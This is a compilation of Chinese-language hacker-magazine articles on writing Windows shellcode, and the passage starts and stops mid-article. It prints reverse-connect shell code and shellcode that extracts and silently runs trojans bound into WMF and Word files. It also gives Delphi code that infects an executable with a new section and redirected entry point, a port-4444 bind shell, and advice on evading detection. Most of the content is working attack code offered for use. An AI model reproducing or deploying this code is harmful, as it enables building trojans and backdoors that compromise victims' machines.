// 从[esi+496]开始的16字节存放 PROCESS_INFORMATION 结构对象
lea eax, dword ptr [esi+496]
push eax
lea eax, dword ptr [esi+424]
push eax
push 0
push 0
push 0
push 1
push 0
push 0
mov dword ptr [esi+520], 'dmc'
lea eax, dword ptr [esi+520]
push eax
push 0

call dword ptr [ebp+28h] // CreateProcessA
cmp eax, 0
jz gameover

// 等待结束, WaitForSingleObject
push 0xffffffff
mov eax, dword ptr [esi+496]
push eax
call dword ptr [ebp+24h]

gameover:
// ExitThread 安全退出
push 0
call dword ptr [ebp+20h]


```

最后的退出代码我用的是ExitThread，而没有用ExitProcess，原因就在于有的系统进程退出后会导致系统重启，而攻击者的基本原则就是攻击的时候尽量不引起对方的察觉。

最后我们来对汇编代码进行测试，在本地先运行nc，如图5所示。
图5

然后设置汇编程序参数为192.168.0.100（反连地址），运行，结果如图6所示。
图6

OK，代码没问题。至于ShellCode的提取，大家可以参照我在《编写分段传送ShellCode》里提到的方法，很管用的。针对实际的漏洞，为了避免禁用字符的出现，ShellCode可能还需要编码，以及用SoftICE等工具进一步调试等。漏洞调试具体细节我们在以后进行远程溢出漏洞分析的时候再一起详细讨论。这里说一个小知识点：在Windows 2000+SP4中装上DriverStudio或SoftICE后，系统重启时往往会出现蓝屏……解决方法是修改Sivvid.sys中相应偏移处字节。

#### 小结

本文我和大家一起讨论了国产个人防火墙的规则配置中存在的缺陷及利用方法，并且对反向连接、开端口的ShellCode的汇编代码进行了实现，希望对大家有所帮助，有什么不足的地方也希望大家在交流的时候提出来。其实这些技巧都是不说不知道，说出来又觉得很简单的，关键是大家平时要养成多观察、多思考、多总结的好习惯，那么能力的提升就总能持续下去。

> 【本文涉及的代码（程序），请见随书光盘】

### ShellCode 自动化提取脚本设计与实现

文/图 刘奇

最近因为学习的需要，研究了几天 PE 文件结构。说“我们是灵长类动物，这么繁琐的计算怎么能用手工来完成呢？”下面大家来看看如何使整个过程自动化……

在分析 PE 结构的同时也写了些小程序辅助分析，学习效果还不错。其中有段小插曲，因为自己的疏忽使得程序一个小错几天没排除……

```c
pFile = fopen(File, "r+");
if (NULL == pFile)
{
    printf("Open file failed\n");
    exit(0);
}
```

这么几行代码有问题吗？肯定没有。慢着慢着，就这么看当然没有问题，可如果需要打开的是一个二进制文件呢？那上面的打开方式就错了，应该为 `"rb+"`……

说到经验，我们不妨来看看 www830 等高手教给我们的提取 ShellCode 经验……在内存中找到 ShellCode 的十六进制形式，如图1所示。

图1

复制出来，保存到文件，然后用 UltraEdit32 打开，去掉左边地址与右边 ASCII 码后，替换空格为 `0x` 并加引号保存就成了 ShellCode……整个过程需要反复做多次，而且操作时容易出错。

```asm
Shell_code_start:
_asm pushad
// 获取kernel32.dll的基址
_asm mov eax, fs:[0x30]
_asm mov eax, [eax + 0x0c]
_asm mov esi, [eax + 0x1c]
...
GetProcAddress函数的地址
...
// 查找LoadLibrary的地址
_asm mov [ebp + 40h], eax
```

地址保存到 `ebp + 40h` 中：

```c
// 开始查找 LoadLibrary 的地址，先构造 "LoadLibrary\0"
_asm push 0x0;                 // 即 '\0'
_asm push DWORD PTR 0x41797261
_asm push DWORD PTR 0x7262694c
_asm push DWORD PTR 0x64616f4c
_asm push esp;                 // 压入 "LoadLibrary\0" 的地址
_asm push edi;                 // edi:kernel32 的基址
_asm call [ebp + 40h];         // 返回值(即 LoadLibrary 的地址)保存在 eax 中

_asm mov [ebp + 44h], eax;     // 保存 LoadLibrary 的地址到 ebp + 44h
_asm mov esp, ebp
_asm add esp, 0x50             // 大致维持平衡，直接 popad 来维持平衡

Shell_code_end:
_asm popad;                    // Shell 的实际长度为 Shell_code_end - Shell_code_start + 1
```

```c
/********************************************
created: 2006/01/10
filename: PE.c
author: Liu Qi
version: 0.2
purpose: ShellCode 的自动化提取
********************************************/
#include <windows.h>
#include <stdio.h>
#include <assert.h>

#define SHELL_CODE_FILE "ShellCode.txt"
int main(int argc, char *argv[])
{
    FILE *pFileShellCode;
    int i;
    char *PtrTo_Shell_code = NULL;
    int extra_data_real_length;

    pFileShellCode = fopen(SHELL_CODE_FILE, "w+");
    if (NULL == pFileShellCode) {
        printf("Open Shell code file failed\n");
        exit(0);
    }

    goto GetShellCode;
Shell_code_start:
    // ShellCode 代码如上，这里节约篇幅省略
Shell_code_end:
GetShellCode:
    _asm pushad;
    _asm lea eax, Shell_code_start;
    _asm mov PtrTo_Shell_code, eax;
    _asm lea edx, Shell_code_end;
    _asm sub edx, eax;
    _asm mov extra_data_real_length, edx;
    _asm popad;

    fputc('"', pFileShellCode);
    for (i = 0; i < extra_data_real_length; i++) {
        fputc('\\', pFileShellCode);
        fputc('x', pFileShellCode);
        fprintf(pFileShellCode, "%.2X", (unsigned char)PtrTo_Shell_code[i]);
    }
    fputc('"', pFileShellCode);
    printf("ShellCode 长度: %d\n", extra_data_real_length);
    fclose(pFileShellCode);
    return 0;
}
```

要提取 ShellCode，肯定要先编译成二进制代码。假如我们有程序能识别编译好的二进制代码中 ShellCode 起始地址和结束地址，并按要求转换，就可以实现自动化。不同 ShellCode 的起始和结束代码不同，特征码也不同，仅靠搜索文件定位起止地址会较困难。

更好的想法是：ShellCode 通常由汇编编写，不引用绝对地址，常常不需要重定位；且其中 API 多通过搜索或 GetProcAddress 得到。在这些前提下，提取流程可进一步自动化。

仔细查看 ShellCode 的结构：

```text
Shell_code_start:
    Shell code
    ...
Shell_code_end:
```

我们需要的只是 `Shell_code_start` 和 `Shell_code_end` 之间的代码，而标号 `Shell_code_start` 实际上就是地址。这意味着二者标示了 ShellCode 的起始与结束地址。若能自动提取两者之间的数据并转换为十六进制，再加上引号即可达到目的。

实现原理：让指针指向 `Shell_code_start`，读取 `(Shell_code_end - Shell_code_start)` 个字节并转换即可。具体代码如右。

代码写出来竟然很短小。由此可见，思想往往比实现更关键——“思想有多远就能走多远”。现在效果已经出来了，如图2所示。

图2

> 【本文涉及的代码（程序），请见随书光盘】

### 绝妙生成术与邪门的 ShellCode

文/图：毒军 dengduai27

最近一个朋友在 WMF 漏洞利用的 ShellCode 编写上遇到了麻烦：他需要编写的 ShellCode 功能是这样的：将绑定在 `.wmf` 文件中的 `.exe` 文件提取、生成并自动执行。经过一整天的努力，这个问题基本部分解决了，但仍然存在一点疑惑，正好写下本文和大家分享。

#### 基础知识

在讨论 ShellCode 之前，需要掌握以下两个基础知识。

- exe 文件已经绑定到了 `.wmf` 文件中，怎么绑定呢？通过 Copy 命令 `copy /b old.wmf+aa.exe new.wmf` 即可完成。
- 绑定木马之后的 `.wmf` 其实是与 HTML 文件一起作为网页木马来应用的，因此，用户通过 IE 打开畸形的 `new.wmf` 文件之前，会先将该文件连同 HTML 文件一起下载到系统的临时文件夹 TIF（Temporary Internet Files）中。TIF 是个隐藏文件夹，位于 `Documents and Settings\Administrator\Local Settings` 下。真正的 IE 临时文件位于 `TIF\Content.IE5` 下，本例中的 `new.wmf` 位于本机的 `Temporary Internet Files\Content.IE5\83SB6109` 目录中，文件名会多一个“[1]”，如 `new[1].wmf`。

OK，有了基础知识，接下来我们看看 ShellCode 的设计思路。

#### ShellCode 设计思路

做任何事情之前整理好思路都很重要，本文要求的 ShellCode 设计思路大致如下。

- 1. 查找 ShellCode 可用到的各 API 函数地址。
- 2. 找到临时文件 `new[1].wmf` 的绝对路径，通过 CreateFileA 函数打开该文件，并创建文件 `aa.exe`。
- 3. 通过 SetFilePointer 函数让 `new[1].wmf` 文件指针指向 `aa.exe` 文件数据开始的地方，即指向“MZ”。
- 4. 循环从 `new[1].wmf` 中读取数据写入 `aa.exe`。
- 5. 执行生成的 `aa.exe`。

过程并不复杂，关键是细心。接下来大家看看汇编实现。本例在 Windows 2000 SP4 + VC6 下编译通过。

#### 汇编实现及待改进的问题

1）API 函数地址。最好在画流程图的时候就确定有哪些 API 函数会用到，并进行合理的内存规划，如下图所示。

查找时的内存分配（示意）

| 偏移 | 内容/用途 |
|---|---|
| +14h | WinExec |
| +18h | WriteFile |
| +1Ch | ReadFile |
| +20h | SetFilePointer |
| +24h | CreateFileA |
| +28h | GetTempPathA |
| +2Ch | GetProcAddress |
| +30h | wmf 文件句柄 |
| +34h | aa.exe 文件句柄 |
| +38h | CloseHandle |
| +3Ch | ExitThread |

其中，GetProcAddress 这个函数地址最重要。查找代码已经多次介绍了，大家可以参考以前的《黑客防线》杂志。其余函数查找的部分代码如下：

```asm
mov [ebp+2Ch], eax    ; GetProcAddress

; 查找GetTempPathA地址
mov dword ptr [ebp], 'TteG'
mov dword ptr [ebp+4], 'Ppme'
mov dword ptr [ebp+8], 'Ahta'
mov byte ptr [ebp+0Ch], 0
push ebp
push ebx
call [ebp+2Ch]  ; 返回 GetTempPathA 地址
mov dword ptr [ebp+28h], eax

; CreateFileA 地址
mov dword ptr [ebp], 'aerC'
mov dword ptr [ebp+4], 'iFe!'
mov dword ptr [ebp+8], 'Acl'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+24h], eax

; SetFilePointer 地址
mov dword ptr [ebp], 'rTeS'
mov dword ptr [ebp+4], 'Peli'
mov dword ptr [ebp+8], 'tnio'
mov dword ptr [ebp+0xC], 're'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+20h], eax

; 查找 ReadFile 和 WriteFile
mov dword ptr [ebp], 'daeR'
mov dword ptr [ebp+4], 'eliF'
mov byte ptr [ebp+8], 0
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+1Ch], eax

; ReadFile / WriteFile
mov dword ptr [ebp], 'daeR'
mov dword ptr [ebp+4], 'eliF'
mov byte ptr [ebp+8], 0
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+1Ch], eax
mov dword ptr [ebp], 'trW'
mov dword ptr [ebp+4], 'liFe'
mov word ptr [ebp+8], 'e'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+18h], eax

; WinExec 地址
mov dword ptr [ebp], 'EniW'
mov dword ptr [ebp+4], 'cex'
push ebp
push ebx
call [ebp+2Ch] ; 返回 WinExec 地址
mov dword ptr [ebp+14h], eax

; CloseHandle 地址
mov dword ptr [ebp], 'solC'
mov dword ptr [ebp+4], 'naHE'
mov dword ptr [ebp+8], 'eld'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+38h], eax

; ExitThread 地址
mov dword ptr [ebp], 'tixE'
mov dword ptr [ebp+4], 'erhT'
mov dword ptr [ebp+8], 'da'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+3Ch], eax
```

2）找到临时文件 `new[1].wmf` 的绝对路径，通过 CreateFileA 函数打开该文件。通过 GetTempPathA 函数可找到系统临时文件夹。按照前面介绍的基础知识，我们可以进一步找到 `new[1].wmf` 的绝对路径。部分代码如下：

```asm
; 留出空间以备存放将来数据
sub esp, 0x800
mov esi, esp
add esi, 4
sub esp, 0x100
mov ebx, esp
add ebx, 4

; 调用 GetTempPathA，获取系统临时文件夹
push ebx
push 64h
call dword ptr [ebp+28h]

xor ecx, ecx
comp:
inc ecx
cmp byte ptr [ebx+ecx], 0x00
jnz comp
dec ecx

; 将路径中的 "temp" 替换为 "temporary Internet Files\Content.IE5\83SB6JQ9\new[1].wmf"
mov dword ptr [ebx+ecx], 'raro'
mov dword ptr [ebx+ecx+4], 'nI y'
mov dword ptr [ebx+ecx+8], 'pret'
mov dword ptr [ebx+ecx+12], 'F te'
mov dword ptr [ebx+ecx+16], 'seli'
mov byte ptr [ebx+ecx+20], 0x5c
mov dword ptr [ebx+ecx+21], 'tnoC'
mov dword ptr [ebx+ecx+25], 'tne'
mov dword ptr [ebx+ecx+29], '5EI.'
mov byte ptr [ebx+ecx+32], 0x5c
mov dword ptr [ebx+ecx+33], 'BS38'
mov dword ptr [ebx+ecx+37], '9Q16'
mov byte ptr [ebx+ecx+41], 0x5c
mov dword ptr [ebx+ecx+42], '[wen'
mov dword ptr [ebx+ecx+46], 'w.]1'
mov dword ptr [ebx+ecx+50], 'fm'
...
// 以读的方式打开new[1].wmf
push 0
push 0x80 ; FILE_ATTRIBUTE_NORMAL
push 3 ; OPEN_EXISTING
push 0
push 3 ; FILE_SHARE_READ | FILE_SHARE_WRITE
push 0x80000000 ; GENERIC_READ
push ebx
call dword ptr[ebp + 24h] ; CreateFileA
...
// 创建可执行文件c:\aa.exe
...
call dword ptr[ebp + 24h] ; CreateFileA
```

3）通过 SetFilePointer 函数让 `new[1].wmf` 文件指针指向 `aa.exe` 文件数据开始的地方。部分代码如下：

```asm
// SetFilePointer 设置文件偏移(exe文件位置)
push 0
push 0
push 0x527D ; exe文件数据开始处:21119
mov eax, dword ptr[ebp + 30h] ; wmf 文件句柄
push eax
call dword ptr[ebp + 20h] ; SetFilePointer
```

4）循环从 `new[1].wmf` 中读取数据写入 `aa.exe`。部分代码如下：

```asm
mov dword ptr[ebp + 40h], 0
// 保存每次实际读取的数据
mov dword ptr[ebp + 44h], 0
// 保存每次实际写入的数据
Read_Write_exe:
push 0
lea eax, dword ptr[ebp + 40h]
...
push eax
push 0x400 ; 每次预定读取1024字节
push esi ; 存放每次读取后数据的缓冲区地址
push dword ptr[ebp + 30h] ; wmf 文件句柄
call dword ptr[ebp+1Ch] ; ReadFile

push 0
lea eax, dword ptr[ebp + 44h]
push eax
push dword ptr[ebp + 40h]
push esi
push dword ptr[ebp + 34h] ; exe 文件句柄
call dword ptr[ebp+18h] ; WriteFile

cmp dword ptr[ebp + 44h], 0x400
jge Read_Write_exe

// 关闭wmf和exe文件句柄
push dword ptr[ebp+30h]
call dword ptr[ebp + 38h] ; CloseHandle
push dword ptr[ebp+34h]
call dword ptr[ebp + 38h] ; CloseHandle
```

5）执行生成的 `aa.exe`，并退出线程。部分代码如下：

```asm
push 0 ; SW_HIDE
push ebp
call dword ptr[ebp + 14h] ; WinExec
gameover:
; ExitThread
push 0
call dword ptr[ebp + 3Ch]
; ExitThread


```

汇编代码就是这样。大家按照前面多期文章介绍的方法就可以完成 ShellCode 的提取，这里就不啰嗦了。

最后还有一个问题，“Content.IE5\83SB61Q9”目录中的“83SB61Q9”是随机的，不同的机器有所区别。因此通用性问题是需要解决的，本文的侧重点是介绍实现的思路。

#### 小结

本文介绍了提取绑定在文件中（如 `.wmf`）木马文件的 ShellCode 编写方法。提取绑定木马的 ShellCode 主要目的是以较短的 ShellCode 完成较复杂的功能，实际的复杂功能都是由木马文件来完成。它和传统 Down&Exec 的 ShellCode 相比，也很容易实现访问网络时突破防火墙。

> 【本文涉及的代码（程序），请见随书光盘】

## 编写Word木马的ShellCode
文／图 cnhst.

在《黑客防线》杂志文章中，曾经分析了导致“万珍”病毒的 Word 2000 溢出漏洞细节，但并没涉及漏洞的具体利用。在文章中，《黑客防线》讨论了生成 WMF 木马的 ShellCode 的设计与实现。由于自身的特点，Word 木马的设计与前者有较大的区别，下面由我对此进行一下分析。

#### 预备知识

在讨论 ShellCode 之前，我们需要掌握以下几个预备知识。

- 诸如 DOC、PDF、WMF、JPG 等文件内容解析过程中引发的漏洞，我们都称之为文件解析漏洞。由于漏洞利用的载体是文件，因此这类漏洞最大的特点就是可以制作成木马。
- 通过文件解析漏洞制作木马的方法有 3 种：
  - 通过 ShellCode 完成全部木马功能（缺点是受 ShellCode 字节数限制）；
  - 通过 ShellCode 到指定 URL 下载并执行木马文件（缺点是可能受防火墙限制）；
  - 在文件中直接绑定 EXE 木马文件（较隐蔽，ShellCode 仅负责生成并运行木马，复杂通信与系统访问由木马完成）。本文采用第 3 种方法。
- 同 WMF 木马制作一样，可通过 copy 命令绑定文件（如 `copy /b old.doc+aa.exe new.doc`）。
- 与 WMF 木马基于 IE 传播不同，Word 木马可通过 E-mail、QQ、IE 等多种传播形式，因此通过在 IE 临时文件夹（TIF）查找文件的思路并不可靠。

#### ShellCode 设计思路

有了上面的预备知识，在假设漏洞已经分析清楚的前提下，ShellCode 的设计思路如下。

- 查找 ShellCode 可用到的各 API 函数地址。
- 绑定木马后的 DOC 文件查找（关键）：
  - 最好不要通过 TIF 查找；
  - 更有效办法是从内存中搜索文件路径。  
    ① 找到 Doc 文件中填写 ShellCode 的位置，将前两个字节改为 `EB FE`（JMP -2）。  
    ② 用 Word 打开 DOC 后观察 EIP 停留在 EB FE 指令上。  
    ③ 通过调试查看 EB FE 后附近内存，定位 DOC 文件路径；需保证搜索起始地址到路径地址区间内存连续可读。
- 实测发现内存中的 DOC 路径为 UNICODE 形式，因此需要通过 CreateFileW 打开 DOC，再通过 CreateFileA 创建文件 aa.exe。
- 通过 SetFilePointer 函数，让 DOC 文件的指针指向目标偏移位置（后续继续处理），即指向 aa.exe 文件数据开始的地方，也就是“MZ”处。
- 循环从 DOC 文件中读取 aa.exe 文件数据，并写入 aa.exe。
- 执行生成的 aa.exe，并安全退出 WinWord。
图1

#### 汇编实现及 ShellCode 的提取

思路整理好后，我们开始编程。此程序在 Windows XP SP2 + VC6 下汇编实现，并测试通过。

- 查找 ShellCode 可用到的各 API 函数地址，包括 GetProcAddress、LoadLibraryA、CreateFileW、CreateFileA、SetFilePointer、ReadFile、WriteFile、WinExec、ExitThread 等。这些函数全部在 Kernel32.dll 中，具体实现请参考 4 期溢出文章中的详细介绍，这里仅给出存放函数地址的内存规划，如图 2 所示。
- 在内存中动态搜索 Doc 文件路径。根据上面的思路，XP SP2 下从 0x0013c300 开始搜索，2000+SP4 下从 0x0012c300 开始搜索。

> 由于 Word2000 的编译器不是 2003.NET 的，因此 2003 下该漏洞利用也应该没问题，各位读者可以测试一下。

搜索部分的汇编代码如下：

```asm
// 从 0x0013c300 处开始向高地址处搜索当前 doc 文件路径
// 准备缓存区域
sub esp, 0x800
mov esi, esp
add esi, 4
mov edi, 0x12c300
mov ebx, 0x005C003A   // ':\' UNICODE 形式
xor ecx, ecx
// 循环比较
comp:
inc ecx
cmp ebx, dword ptr [edi + ecx - 1]
jnz comp
```

- 找到 DOC 文件路径后，通过 CreateFileW 函数打开该 DOC 文件，然后通过 CreateFileA 创建文件 aa.exe。汇编代码如下：

```asm
lea ebx, dword ptr [edi + ecx - 3]
push 0
push 0x80        // FILE_ATTRIBUTE_NORMAL
push 3           // OPEN_EXISTING
push 0
push 3           // FILE_SHARE_READ | FILE_SHARE_WRITE
push 0x80000000  // GENERIC_READ
push ebx
call dword ptr [ebp + 28h]   // CreateFileW
cmp eax, 0
jle gameover
mov dword ptr [ebp + 30h], eax   // 保存 doc 文件句柄

mov dword ptr [ebp], 0x615c3a63
mov dword ptr [ebp + 4], 'xea'
mov dword ptr [ebp + 8], 'et'

push 0
push 0           // FILE_ATTRIBUTE_NORMAL
push 2           // CREATE_ALWAYS
push 0
push 0
push 0x40000000  // GENERIC_WRITE
push ebp
call dword ptr [ebp + 24h]   // CreateFileA
cmp eax, 0
jle gameover
mov dword ptr [ebp + 34h], eax   // 保存 exe 文件句柄
```

- 通过 SetFilePointer 函数让 DOC 文件指针指向 aa.exe 文件数据开始的地方，即指向“MZ”。该位置可以直接从 UltraEdit32 中读取，汇编代码如下：

```asm
// SetFilePointer 设置文件偏移（exe 文件位置）
push 0
push 0
push 0x6800   // exe 文件数据开始处
mov eax, dword ptr [ebp + 30h]   // doc 文件句柄
push eax
call dword ptr [ebp + 20h]   // SetFilePointer
```

- 循环从 DOC 文件中读取 aa.exe 文件数据，并写入 aa.exe。汇编代码如下：

```asm
mov dword ptr [ebp + 40h], 0   // 保存每次实际读取的数据
mov dword ptr [ebp + 44h], 0   // 保存每次实际写入的数据
Read_Write_exe:
push 0
lea eax, dword ptr [ebp + 40h]
push eax
push 0x400      // 每次预定读取 1024 字节
push esi        // 存放每次读取后数据的缓冲区地址
push dword ptr [ebp + 30h]   // doc 文件句柄
call dword ptr [ebp + 1Ch]   // ReadFile
push 0
lea eax, dword ptr [ebp + 44h]
push eax
push dword ptr [ebp + 40h]
push esi
push dword ptr [ebp + 34h]   // exe 文件句柄
call dword ptr [ebp + 18h]   // WriteFile
cmp dword ptr [ebp + 44h], 0x400   // 判断是否读写完毕
jge Read_Write_exe
// 关闭 doc 和 exe 文件句柄
push dword ptr [ebp + 30h]
call dword ptr [ebp + 38h]   // CloseHandle
push dword ptr [ebp + 34h]
call dword ptr [ebp + 38h]   // CloseHandle
```

- 最后执行生成的 aa.exe，并安全退出 WinWord。汇编代码如下：

```asm
push 0   // SW_HIDE
push ebp
call dword ptr [ebp + 14h]   // WinExec
gameover:
// ExitThread
push 0
call dword ptr [ebp + 3Ch]   // ExitThread


```

OK，汇编实现就是这样了，接下来是 ShellCode 的提取。提取方法以前黑防也介绍过，就是从 VC 调试界面的内存窗口中直接读取汇编代码对应的机器编码，如图 3 所示。
然后将这些二进制数据拷贝到 UltraEdit32 中，再通过一个简单的转换程序转换为我们熟悉的 `\x` 形式即可。具体过程这里就不再讨论了，在光盘中我直接给出了转换程序代码。

### Word木马的构造与测试

ShellCode 提取之后，我们再通过两个简单的转换程序写入到 DOC 文档中。为了不破坏 DOC 文档，数据写入的方式应该采用“改写”而不是“插入”，两个转换程序分别为 readdoc 和 newdoc：前者读取 DOC 文件数据，后者根据前者得到的数据进行改写，并重新生成 DOC 文件。程序光盘附带，大家直接编译就可以了。

Word 木马的构造前面已经提到，直接通过 copy 命令即可完成。至于测试……大家可以直接绑定 cmd.exe 试试，在光盘中我也提供了一个绑定后的样本。实际应用中，为了减小 DOC 木马体积，建议大家采用汇编编写的 EXE 程序。

从上面的分析可知，绑定一个文件和绑定多个文件的方法类似，并且和绑定的文件格式无关。

#### 小结

在本文中，我们讨论了以 Word2000 溢出漏洞为基础，创建 Word 木马的 ShellCode 编写技术。其实这种方法应用是比较广的，而涉及的技术也大多是比较基础的。最近 Word XP 和 Word 2003 又爆出新漏洞，而且已经被成功利用。大家参考漏洞分析文章和本文，相信也能分析出这些新漏洞。最后还是那句老话，欢迎大家交流。

> 【本文涉及的代码（程序），请见随书光盘】

## 不死的ShellCode
文／图 lcjxb

#### 引子

看了这么久的《黑客防线》杂志，我想大家都知道 ShellCode 是什么吧。说白了，就是能够实现攻击者目的的一段机器码。在溢出攻击中，让有漏洞的机器执行这段机器码，可达到攻击的目的；漏洞利用完 ShellCode 就等于死了，不存在了。如果目标机器把漏洞补好了，那溢出攻击就会失效，有没有办法在一次溢出成功后，ShellCode 仍然存在呢？

我的思路是：通过搜索查找 exe 文件的最后一个区块，在这个区块后面搜索足够大小空间的 00 块，在它们后面存放后门代码。通过更改程序入口点，执行后门代码，最后跳回程序原来的入口点继续执行。

不过正如示哥所说，对 VC++ 等编译的可执行文件的代码块是 `.text`，而 Delphi 编译的会是 `.code`，这样在查找区块的时候，还是有一点缺乏通用性。

其实除了搜索空白区域，我们还有一种办法可以达到同样的效果，那就是给可执行文件增加区块，这样似乎通用性要强那么一点。

我这里测试的目标是 SuperScan3.0，大家可以自由选择。我们用 OD 加载被增加区块的 SuperScan3.0，如图 1 所示。
#### 编写

这里关于增加区块的代码，我是借鉴好兄弟 Niklen 写的免杀工具的代码，所谓“师夷长技以制夷”嘛。下面开始讲解我的思路。

- 为可执行文件增加一个 `exploit` 区块。
- 在 `exploit` 区块中加载我们所希望的 ShellCode。
- 更改可执行文件的入口点，使其先执行我们的 ShellCode。
- 恢复程序真正入口点，使其得以继续执行。
- over!

好，我们开始打造吧。本程序是用 Delphi 编译的，来看看代码，测试就先用开 DOS 窗口的 ShellCode 吧：

```c
JMPOFF = 25; // 偏移 25 个字节
SHELLCODE: THEAD = ($55,$8B,$EC,$51,$C7,$45,
$FC,$63,$6D,$64,
$00,$6A,$05,$8D,$45,$FC,$50,$B8,$4D,$11,
$86,$7C,$FF,$D0,$B8, // 到这里正好 25 个字节
$00,$10,$40,$00,$FF,$E0);
```

> 这里开 DOS 窗口的 WinExec 函数的地址，每台机器是不同的，大家可以用 GetWinExecAdd.cpp 获得，文盘有收录。

为什么要 25 个字节呢？看到最后一行没有，其实这是我从 VC 的花指令中改造过来的。最后一行就是 VC 程序通常的入口点 0x401000。这样配合下面的汇编代码，我们将很容易地恢复程序原本的入口点。

在本文的下半部分，我们将看见绑定 4444 端口的 ShellCode，JMPOFF 赋值为 317，所以你选择的 ShellCode 长度是多少，JMPOFF 就要赋予多少。

```asm
PUSHAD                        // 寄存器入栈
LEA eax, SHELLCODE            // 将 SHELLCODE 的地址交给寄存器 eax
ADD eax, JMPOFF               // eax = eax + JMPOFF
MOV edx, AddressOfEntryPoint  // 将入口点赋值给 edx
MOV DWORD ptr [eax], edx      // 同上
POPAD                         // 所有寄存器出栈
```

下面就是增加区块的代码了：

```pascal
fs.Seek(0, soFromBeginning); // 指向文件头
fs.Read(DOSHEADER, sizeof(DOSHEADER));
fs.Seek(DOSHEADER._lfanew, soFromBeginning); // 指向 PE 头部
fs.Read(PEHEADER, sizeOf(PEHEADER));
fs.Seek(sizeOf(SectionHeader) * (PEHEADER.FileHeader.NumberOfSections - 1), soFromCurrent); // 定位到最后一个区块
fs.Read(SectionHeader, sizeof(IMAGE_SECTION_HEADER));
MySectionHeader.Name[0] := ord('e');
MySectionHeader.Name[1] := ord('x');
MySectionHeader.Name[2] := ord('p');
MySectionHeader.Name[3] := ord('l');
MySectionHeader.Name[4] := ord('o');
MySectionHeader.Name[5] := ord('i');
MySectionHeader.Name[6] := ord('t');
MySectionHeader.Name[7] := 0;
MySectionHeader.VirtualAddress := PEHEADER.OptionalHeader.SizeOfImage;
MySectionHeader.Misc.VirtualSize := $500;
MySectionHeader.SizeOfRawData := (...);
MySectionHeader.PointerToRawData := SectionHeader.SizeOfRawData + SectionHeader.PointerToRawData;
MySectionHeader.Characteristics := $E0000020; // 可读可执行
Inc(PEHEADER.FileHeader.NumberOfSections);
fs.Write(MySectionHeader, sizeOf(MySectionHeader));
fs.Seek(DOSHEADER._lfanew, soFromBeginning);

AddressOfEntryPoint := PEHEADER.OptionalHeader.AddressOfEntryPoint;  // 保存原来的程序入口点
...
PEHEADER.OptionalHeader.AddressOfEntryPoint := MySectionHeader.VirtualAddress;
...
PEHEADER.OptionalHeader.MajorLinkerVersion := 7;
PEHEADER.OptionalHeader.MinorLinkerVersion := 0;
AddressOfEntryPoint := AddressOfEntryPoint + PEHEADER.OptionalHeader.ImageBase;
...
PEHEADER.OptionalHeader.SizeOfImage := PEHEADER.OptionalHeader.SizeOfImage + MySectionHeader.Misc.VirtualSize;
...
fs.Write(PEHEADER, sizeof(PEHEADER));
fs.Seek(fs.Size, soFromBeginning);
fs.Write(SHELLCODE, MySectionHeader.Misc.VirtualSize);
```

```c
JMPOFF = 317;
SHELLCODE: THEAD = (
$eb,$10,$5b,...
...
$83,$E2,$B8,
$00,$10,$40,$00,$FF,
$E0);

// 到这里正好 317 个字节


```

看一下增加的区块，如图 2 所示。
现在打造完毕，测试一下功能。启动 SuperScan3.0 的时候，DOS 窗口也打开了，如图 3 所示。
似乎只开了 DOS，感觉不是太完美，那绑定一下 4444 端口吧。

效果如图 4 所示。这时候 Telnet 4444 端口就如图 5 所示了。
#### 总结

至于反向连接、下载执行的 ShellCode，读者朋友可以自行测试，记得 JMPOFF 要等于 ShellCode 的长度。
回顾一下，把 ShellCode 保存在新增的区块中，是不是就可以达到 ShellCode 不死的目的呢？如果把这段代码也提取为 ShellCode，嘿嘿……这些就靠读者朋友自己去拓展吧！

> 小贴士：有些可执行文件会限制区块的大小，这样会限制加载理想的 ShellCode。如果超出大小，有的可能会执行功能，但程序本身功能会失去，有时候甚至会出错。

【本文涉及的代码（程序），请见随书光盘】

### 打造自己的 ShellCode：综合分析工具
文／图 H.S.T

仔细阅读本文，你将可以学到以下知识：

- 溢出初学者获取现成的 ShellCode 的常规方法；
- WinHex、IDEMasm、Stud_PE、Windbg（VC）、IDA Pro 等工具在 ShellCode 分析中的灵活搭配运用。

- 直接抓包获取。很多时候，网上只公布漏洞利用工具。我们可以通过截获工具运行时与目标机器之间的通信报文并逐条分析，从中提取 ShellCode（如分析 SMB/RPC 协议漏洞时）。

#### 引子

缓冲区溢出是一个很讲究学习方法的技术。对于初学者而言，先学会灵活使用各种分析工具，再学习 ShellCode 编写更容易上手和理解。面对现有 Exploit 代码和漏洞攻击工具，通常先做数据提取与预处理再分析。
这种方式得到的 ShellCode 原本以十六进制形式存在于文件中，因此得到的原始数据也是十六进制。无论何种形式的 ShellCode，通常都经过编码，直接反汇编难以看出有效信息，需要借助工具进行处理后再分析。

#### 获取现成的 ShellCode 的常规方法

对于现成的 ShellCode，主要有以下两种获取方法：

- 从别人的 Exploit 代码中直接复制（前提是公开了漏洞利用程序源码或特定功能 ShellCode）；
- 通过通信报文抓取并提取。

```c
BYTE BindShell[] = {
  "\xeb\x...\xff\x..."
};


```

#### 几款重要的 ShellCode 分析工具介绍

下面列举一些分析 ShellCode 时常用的重要工具：

- WinHex：优秀的十六进制编辑工具，其功能之一是将二进制数据直接生成为 C 数组（如图4所示）。
- IDEMasm：不错的 Win32 汇编开发工具，集成了 Masm 的编译、连接功能，同时还可引入 SoftICE 进行源代码调试，如图5所示。
- Stud_PE：大家都熟悉的 PE 文件分析工具，该工具功能众多，我们主要用到其中的壳分析和段属性编辑功能。
- Windbg：Windows 自带的调试工具，本机上可调试用户态进程。
- VC：这就不用介绍了吧？
- IDA Pro：目前为止最优秀的静态反汇编工具之一。

OK，工具介绍完毕，下面我们就结合实例来讲讲如何分析特定的 ShellCode。

#### ShellCode 实例分析

根据前面的两种 ShellCode 获取方法，我们将可能分别得到 ASCII 形式与十六进制形式的 ShellCode。因此，接下来我们也将针对这两种形式来分别谈谈相应的处理方法。

- 1. 位于源代码中的 ASCII 形式 ShellCode。这里要引用的例子是添加用户 X（密码也为 X）的 ShellCode，部分代码如图6所示。

全部的测试代码大家可以参见随本文提供的……

```c
unsigned char sc[] =
"\x33\xC9"
